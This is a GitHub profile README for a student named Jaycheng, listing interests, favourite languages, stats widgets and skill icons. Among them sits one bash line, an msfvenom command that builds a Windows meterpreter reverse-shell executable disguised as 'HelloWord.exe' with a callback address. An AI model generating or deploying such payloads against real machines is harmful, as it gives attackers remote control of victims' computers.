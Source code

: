 ## Hello, I am Jaycheng

<img align='right' src='./res/crash.png' width='40%'>

* ✨ `My name is`: **Jaycheng**,
* 🪪 `Pronouns`: **He/Him**,
* 🏫 `I'm study in`: **NTUST**,
* 🌱 `I’m currently learning`: **JavaScript**,
* ❤️ `I love`: **Perle milk tea🧋**  ,
* 🖥️ `Favorite lang`: **JavaScript & Python**

### About me
>化工科，比起調殺蟲劑更喜歡造爬蟲www

#### >　1000110 1001111 1011000

```bash
msfvenom -p windows/meterpreter/reverse_tcp lport=1111 lhost=192.168.0.1 -f exe > HelloWord.exe
```

<br>
<h2 align="center">🍵 Statistics</h2>

<div>
    <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=FUBUKINGFOX&layout=compact&theme=dark" alt="my github stats" height="170">
    <img src="https://github-readme-stats.vercel.app/api?username=FUBUKINGFOX&theme=dark" alt="my github stats" height="170"/>
</div>

### Skills

<div>
    <img src="./icon/git.png" alt="git" title="Git Version Control" width="52" />
    <img src="./icon/nodejs.png" alt="nodejs" title="NodeJS" width="52" />
    <img src="./icon/javascript.png" alt="javascript" title="Javascript" width="52" />
    <img src="./icon/python.png" alt="python" title="Python" width="52" />
</div>
